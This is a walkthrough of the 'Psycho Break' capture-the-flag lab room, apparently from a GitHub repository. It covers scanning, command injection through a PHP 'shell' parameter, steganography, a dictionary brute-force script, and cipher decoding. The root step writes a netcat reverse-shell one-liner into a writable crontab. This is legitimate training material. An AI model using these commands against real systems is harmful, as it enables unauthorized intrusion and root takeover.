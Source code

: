 # Psycho Break

[<img src=".Images/psycho.jpeg" height="150">](https://tryhackme.com/room/psychobreak)

*"Help Sebastian and his team of investigators to withstand the dangers that come ahead."* -[shafdo](https://tryhackme.com/p/shafdo)

Dificulty: *Easy*

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![psycho-1](.Images/psycho-1.png)

We can see that FTP, SSH and Apache http services are running. FTP doesn't allow anonymous login. So let's start by looking at the web server.

On the page that welcomes us, when we look at the source code, we will see the "/sadistRoom" directory. The sadist room will give us the key to locker room.

In locker room, we find a encoded text. I use a [cipher identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) to find out what the text has been encrypted with and i decode it with [CyberChef](https://gchq.github.io/CyberChef/).

![psycho-2](.Images/psycho-2.png)
![psycho-3](.Images/psycho-3.png)

Now we can access the map.

![psycho-4](.Images/psycho-4.png)

We see 4 different locations on the map. We have already finished with the first two. If you look at The Abandoned Room, you'll see that we need the keeper key to access it. We will reach this key via safe heaven.

At this point I tried a lot of things. I downloaded all the images on the site and tried to find something in them but I couldn't find anything.

If it's not in the images, I thought this should be a directory. To find the directory, I did a gobuster scan using the ["directory-list-2.3-medium.txt"](https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt).

`gobuster dir -u http://<IP>/SafeHeaven/ -w directory-list-2.3-medium.txt`

![psycho-5](.Images/psycho-5.png)

In this directory, we need to find the location of the image. We can use reverse image search. You can easily find the answer and get the keeper key.

We will meet Laura the Spiderlady in the Abandoned room. We will see a hint as we look at the source code. 

*"There is something called "shell" on current page maybe that'll help you to get out of here !!!"* 

We can try the word "shell" to give a parameter to the PHP file.

`http://<IP>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls`

Yes, it is work. But we can only run the ls command. After trying a few alternatives, I use the "ls .." command to list a parent directory and it works. In the upper directory we see two directory or files encrypted with md5. One is the directory we are in, and the other we need to look to understand what it is.

![psycho-6](.Images/psycho-6.png)

We found "helpme.zip".

## [Gain Shell]

When we unzip the file, we will see a txt file and a jpg. The txt file says the key is in the Table.jpg. When we look at this jpg file with the "file" command, we see that it is actually a zip.

![psycho-7](.Images/psycho-7.png)

When you listen to the audio file, you will see that it has morse code. To decode this, I find an [audio morse decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) with a simple search.

![psycho-8](.Images/psycho-8.png)

I will use this word to extract files from "Joseph_0da.jpg" with the steghide tool.

`steghide extract -sf Joseph_0da.jpg`

![psycho-9](.Images/psycho-9.png)

Now we have the FTP information, we can try to login. In FTP server, we have two file. One ELF(executable) file and one dictionary file.

![psycho-10](.Images/psycho-10.png)

As it is understood, we will need to bruteforce the program file with the dictionary file we found. I will use the python language for this.

```
import os

f = open('random.dic','r')

for i in f:
    i = i.replace("\n","")
    result = os.popen(f"./program {i}").read()
    if "Incorrect" not in result:
        print(result)
        break

f.close()
```

![psycho-11](.Images/psycho-11.png)

Now we need decode this text. The cipher identifier I used before could not identify it. I have encountered this encryption before, I know it is related to the phone. After a few tries on a [decode site](https://www.dcode.fr/en), I find what I'm looking for. This is "Multi-tap Phone Cipher".

![psycho-12](.Images/psycho-12.png)

Now, we have some credentials. We can try these for SSH connection.

## [Privilege Escalation]

When I login a linux machine, I first check the SUID files and cronjobs. Here too I found something in /etc/crontab file.

![psycho-13](.Images/psycho-13.png)

We see that we have the authority to write to this file, which is run regularly with root authority. Let's get a reverse shell. I will use netcat.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f`

![psycho-14](.Images/psycho-14.png)

`nc -nvlp <PORT>`

After waiting for a while, we will have root privilege.

![psycho-15](.Images/psycho-15.png)
